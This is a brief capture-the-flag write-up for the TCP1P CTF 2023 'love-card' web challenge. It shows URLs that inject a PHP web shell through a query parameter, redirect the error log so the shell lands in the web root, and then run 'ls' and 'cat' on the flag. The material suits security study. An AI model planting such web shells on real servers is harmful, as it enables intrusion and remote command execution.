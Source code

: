 # love-card

Make your own love card for your gf <3

## Solution

I wasn't quite on the right track on my attempt...

https://github.com/SuperStormer/writeups/tree/master/tcp1pctf_2023/web/love-card

```txt
http://ctf.tcp1p.com:9137/?name=<?php system($_GET['cmd']);?>&dev=true&error_log=/var/www/html/cmd2.php

output exploit php to same directory

url encoded -> http://ctf.tcp1p.com:9137/?name=%3C?php%20system($_GET[%27cmd%27]);?%3E&dev=true&error_log=/var/www/html/cmd2.php

go to newly created page, list directory - http://ctf.tcp1p.com:9137/cmd2.php?cmd=ls%20/

fetch randomly named flag - http://ctf.tcp1p.com:9137/cmd2.php?cmd=cat%20/flag_8q35rtat.txt
```
